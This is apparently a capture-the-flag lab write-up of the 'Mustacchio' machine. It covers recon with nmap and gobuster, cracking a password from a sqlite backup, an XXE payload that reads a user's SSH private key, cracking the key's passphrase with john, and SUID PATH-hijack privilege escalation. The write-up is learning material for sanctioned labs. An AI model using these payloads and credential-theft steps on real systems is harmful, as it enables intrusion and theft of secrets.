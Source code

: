 # Mustacchio V2
Easy boot2boot machine

## Recon
### Nmap Scan
At the commencement of each CTF challenge, our initial step consistently involves conducting an nmap scan.

```
sudo nmap -sC -sV -O -T4 10.10.41.60 -vv -p- -oG all
```

![Nmap Scan](/THM/MustacchioV2/images/nmap.PNG)

As evident from our findings, two ports, specifically port 80 and port 8765, are open and host a website.

### Gobuster Scan
Since there is a website that is being hosted, we will then run 
```
gobuster dir -t 100 --url http://10.10.41.60 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt
``` 
as part of our scan to find any hidden directories.

While waiting for the gobuster scan to finish scanning the directories, i went to the website to find for any hints to continue with the challenge.

![Website](/THM/MustacchioV2/images/website.PNG)

However i did not find anything that is useful to continue the challenge.

Once the Gobuster scan had completed, I returned to the terminal to review the results.

![Gobuster Scan](/THM/MustacchioV2/images/gobuster.PNG)

This is where i traversed around the directory that was discovered by the Gobuster and found something interesting in the custom/js folder.

![custom/js folder](/THM/MustacchioV2/images/custom.PNG)

I found the file called **"users.bak"** which immediately alarmed me that it could be an backup file that contains database information.

After downloading the file, this is where i ran 
```
file users.bak
```

![users.bak strings](/THM/MustacchioV2/images/usersbak.PNG)

which confirms my doubt that it was a sqlite backup file.

After that i ran **"sqlitebrowser"** and drop the file inside the newly opened tab.

![SQLite](/THM/MustacchioV2/images/SQLite.PNG)

This is where i found a username and password in hash format, so i used crackstation.net to crack the password.

![user](/THM/MustacchioV2/images/user.PNG)

![crack](/THM/MustacchioV2/images/crack.PNG)

### Port 8765
From the original website that is hosted at port 80, i couldn't use the login details that i have found from the previous recon so i decided to go to port 8765.

![login](/THM/MustacchioV2/images/login.PNG)

Ohhh shit, from here i found a login page and decided to give the username and password that i have gathered during the previous recon.

![successful login](/THM/MustacchioV2/images/successful.PNG)

It worked!

I then chose to spend some time exploring the website, during which I came across the following information.

![view source](/THM/MustacchioV2/images/source.PNG)

At this juncture, I opted to download the file (/THM/MustacchioV2/auth/dontforget.bak) from the website and inspect its contents, where I subsequently uncovered...

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>   
```

I made the decision to experiment with the form both by submitting it without any input and by using the input I had identified in the file.

![empty](/THM/MustacchioV2/images/emptyinput.PNG)

![xml](/THM/MustacchioV2/images/xmlinput.PNG)

At this point, I initiated a Google search to investigate XML vulnerabilities, which led me to discover a vulnerability known as XML External Entity (XXE) Processing.

## Exploitation
Recalling what we had discovered while examining the homepage
```
Barry, you can now SSH in using your key!
```

I decided to give the payload a try
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>  
```

![xxe](/THM/MustacchioV2/images/xxe.PNG)

It worked!

I proceeded to copy the RSA key using the command <mark style="background-color:grey">echo [rsa_key] > barry_id_rsa</mark>. It was apparent that the key was encrypted. To decipher the password, I employed the following command
```
ssh2john barry_id_rsa > for_john
john --wordlist=/usr/share/wordlists/rockyou.txt forjohn
```

![john cracked](/THM/MustacchioV2/images/cracked.PNG)

Subsequently, I utilized the "id_rsa" file along with the cracked passphrase to establish an SSH connection to the target machine.

![ssh](/THM/MustacchioV2/images/ssh.PNG)

## Privilege Escaltion
### Potential methods for privilege escalation
I initiated a series of commands to assess the system for potential vulnerabilities.
```
"id" to check if the user was part of the LXC/LXD group.
"uname -a" to examine the kernel version and assess the system for potential kernel exploits
```

### SUID for privilege escalation
When I executed the command
```
find / -perm -u=s -type f 2>/dev/null
```

I came across an intriguing file that had the capability to run as a privileged user

![suid](/THM/MustacchioV2/images/suid.PNG)

I navigated to that directory and tried to find out what the file does.

At this point, I discovered that one of the commands within the program was not utilizing an absolute path.

![attack](/THM/MustacchioV2/images/attack.PNG)

This reminded me of the technique mentioned in the https://tryhackme.com/room/linuxprivesc, where a similar method was discussed for privilege escalation.

### Creating payload

![payload](/THM/MustacchioV2/images/payload.PNG)

Setting path for payload to execute

![path](/THM/MustacchioV2/images/path.PNG)

Execute the payload

![execute](/THM/MustacchioV2/images/root.PNG)

Viola, now you are root.

## Conclusion
This room provided me with an opportunity to apply the knowledge and skills I had been honing over the past two months, particularly in the areas of web exploitation, basic reverse engineering(strings), basic privilege escalation. With being able to pick up knowledge and skills on XML external entity (XXE) injection. Thank to zyeinn for creating the room.
